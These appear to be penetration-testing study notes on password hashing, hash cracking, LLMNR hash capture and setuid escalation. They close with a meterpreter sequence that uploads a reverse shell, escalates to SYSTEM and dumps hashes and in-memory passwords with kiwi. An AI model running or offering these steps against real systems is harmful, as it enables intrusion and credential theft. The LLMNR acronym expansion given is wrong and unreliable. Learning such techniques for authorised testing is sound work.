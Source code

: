 Passwords are salted and hashed, so that even if users have the same password, a different hash is stored. A user is randomly assigned a salt (e.g. a sequence of bytes). The salt is generally prepended or appended to password

TODO: Rainbow tables.

Some popular hash brute forcing utilities; `hashcat` `johntheripper`. Checkout the `hashcat` attack modes for example; which can do straight, combination, brute force, hybrid wordlist with mask.


Hash primer:

* One way
* Collision resilient

LLMNR Local Link Multi Node Resolver. In a nutshell, a user types sharepoint.local. First a DNS request to answer whats the IP, and sends you to that location. If an incorrect URI is typed (fat fingers), the fallback protocols of LLMNR (Responder) kick it, which freely transmit the users hash.

setuid is another escalation avenue:

    cp /usr/bin/id ~/fooid
    chown king-phisher: ~/fooid
    chmod +s ~/fooid
    ./fooid

Take note of the euid in the output, the effective user.



# Attacking Hashes

* Gather wordlists - https://github.com/danielmiessler/SecLists/tree/master/Passwords
* Gather password hashes - [Mimikatz]() [Meterpreter]()
* Crack password hashes - [Hashcat]() [John the Ripper]() [Hydra]()
* Pass the hash - do you even need to crack?



# Exercise Hashing

* Hook up a bind or reverse shell to the desired target machine. Ensure payloads line up on both ends (unstaged/staged, meterpreter), and for the target platform (e.g. windows).

Tip: if using the PHP meterpreter shell, you will need to scale up to the native windows/linux shell whcih is more comprehesive. MSFVenom to spit out a native windows reverse shell. 

    meterpreter> lpwd
    meterpreter> lcd /root
    meterpreter> upload shell.exe   #puts a file on the host
    meterpreter> background   # this is how to background an active session
    msf exploit(handler)> sessions   # lists active sessions
    msf exploit(handler)> execute -f shell.exe
    meterpreter> sessions 1
    meterpreter> sysinfo
    meterpreter> ps
    meterpreter> migrate 2616    # to migrate rshell into pid 2616
    meterpreter> hashdump
    meterpreter> getsystem   # elevate to SYSTEM, needed for kiwi extensions
    meterpreter> load kiwi    # load the kiwi extension
    meterpreter> creds_all    # will dump out hashes, and in memory passwords
    meterpreter> help    # will now show kiwi help
